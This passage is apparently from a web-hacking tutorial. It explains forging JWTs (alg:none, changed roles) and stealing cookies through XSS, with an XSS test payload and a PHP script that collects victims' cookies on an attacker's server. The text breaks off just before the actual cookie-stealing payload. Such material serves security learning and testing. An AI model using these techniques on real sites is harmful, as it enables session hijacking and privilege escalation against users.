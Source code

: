 
### JWT manipulation

<div style="display: flex; justify-content: center;">
  <img src="/images/hacking/JWTstructure.png" alt="Mi foto" width=65% style="border-radius: 10px; box-shadow: 0 0 10px rgba(0,0,0,0.3); margin-bottom: 50px;"/>
</div>

**JSON Web Tokens** can be **manipulated** to escalate privileges. This works if the server doesn’t properly verify the signature or allows `alg: none`.  

Decode and inspect a token:

```
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." | jwt-decode
```

Or go to [**jwt.io**](https://www.jwt.io/)

Then try **changing roles** or **switching the algorithm** and replay the token to see if you gain access.

### Cookie stealing via XSS

If a site has a **Cross-Site Scripting** (**XSS**) vulnerability, you can **inject JavaScript** that runs in another user’s browser. If cookies aren’t marked as **HttpOnly**, this script can read them and send them to you.

You can test it in:

- Input fields (search boxes, comment forms, profile updates)
- URL parameters (For example: ?q=...)
- Any place where user input is reflected in the page or stored for others

**How to test step by step:**

First, confirm **XSS** exists. A simple payload:

```
<script>alert(1)</script>
```

If you see the alert pop up in your browser, **XSS** is possible.

**Set up a server to receive cookies:**

You need a server that you control to collect the cookies sent by the victim's browser. For example, using PHP:

```
<?php

if(isset($_GET['cookie'])){
    file_put_contents('cookies.txt', $_GET['cookie'] . "\n", FILE_APPEND);
}
?>
```

**Inject the cookie-stealing payload:**
